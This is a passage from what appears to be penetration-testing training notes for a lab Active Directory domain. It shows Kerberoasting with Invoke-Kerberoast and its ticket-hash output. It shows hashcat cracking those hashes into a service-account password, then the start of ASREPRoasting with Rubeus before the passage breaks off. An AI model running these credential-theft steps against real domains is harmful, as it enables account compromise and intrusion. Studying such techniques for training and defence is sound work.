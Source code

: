 ```powershell
[*] SamAccountName         : appsvc
[*] DistinguishedName      : CN=appsvc,CN=Users,DC=us,DC=techcorp,DC=local
[*] ServicePrincipalName   : appsvc/us-jump.us.techcorp.local
[*] PwdLastSet             : 1/8/2021 5:50:35 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*appsvc$us.techcorp.local$appsvc/us-jump.us.techcorp.local@us.techcorp.local*$6B4B9C...
```
### 1.1.2 Invoke-Kerberoast.ps1
```powershell
PS C:\Auditor> Invoke-Kerberoast -Domain us.techcorp.local


TicketByteHexStream  :
Hash                 : $krb5tgs$USSvc/serviceaccount:360757D9275627E1378D988C5FD9965B$4E53786F5...
SamAccountName       : serviceaccount
DistinguishedName    : CN=serviceaccount,CN=Users,DC=us,DC=techcorp,DC=local
ServicePrincipalName : USSvc/serviceaccount

TicketByteHexStream  :
Hash                 : $krb5tgs$appsvc/us-jump.us.techcorp.local:6B4B9C309A3C0DE8E7FE1CDA0FC912AE$30FBF7...
SamAccountName       : appsvc
DistinguishedName    : CN=appsvc,CN=Users,DC=us,DC=techcorp,DC=local
ServicePrincipalName : appsvc/us-jump.us.techcorp.local
```
### 1.2 Hashcat
- We can now copy the _Hash_ values, paste them in a file on our machine and attempt to crack them.
```zsh
┌──(root🔱KaliVM)-[/home/pri3st/Desktop/Training/CRTE]
└─# hashcat -O -a 0 -m 13100 tickets.tgs /usr/share/wordlists/rockyou.txt

<snip>

$krb5tgs$23$*serviceaccount$us.techcorp.local$USSvc/serviceaccount@us.techcorp.local*$888...:Password123

<snip>
```
- We now have a valid set of credentials, **serviceaccount:Password123**.
# 2. ASREPRoasting
- Since some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline.
### 2.1 Rubeus
```powershell
PS C:\Auditor> .\Rubeus.exe asreproast /domain:us.techcorp.local /dc:us-dc.us.techcorp.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: AS-REP roasting

```